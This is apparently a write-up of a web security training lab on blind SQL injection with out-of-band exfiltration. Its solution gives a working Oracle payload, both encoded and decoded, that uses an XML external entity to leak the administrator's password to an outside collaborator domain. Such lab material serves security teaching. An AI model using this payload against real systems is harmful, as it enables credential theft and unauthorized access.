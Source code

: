 # Blind SQL injection with out-of-band data exfiltration
# Objective
This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.\
\
The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.\
\
The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.\
\
To solve the lab, log in as the administrator user.

# Solution

|![](Images/image-43.png)|
|:--:| 
| *Modification of cookie value* |
|![](Images/image-44.png)|
| *Data exfiltration - administrator's password* |

Final payload:
```
Encoded: 20UNION%20SELECT%20EXTRACTVALUE(xmltype('%3c%3fxml%20version%3d%221.0%22%20encoding%3d%22UTF-8%22%3f%3e%3c!DOCTYPE%20root%20%5b%20%3c!ENTITY%20%25%20remote%20SYSTEM%20%22http%3a%2f%2f'%7c%7c(SELECT%20password%20from%20users%20where%20username%3d'administrator')%7c%7c'.<id>.oastify.com%2f%22%3e%20%25remote%3b%5d%3e')%2c'%2fl')%20FROM%20dual--; 

Decoded: 20UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password from users where username='administrator')||'.<id>.oastify.com/"> %remote;]>'),'/l') FROM dual--; 
```
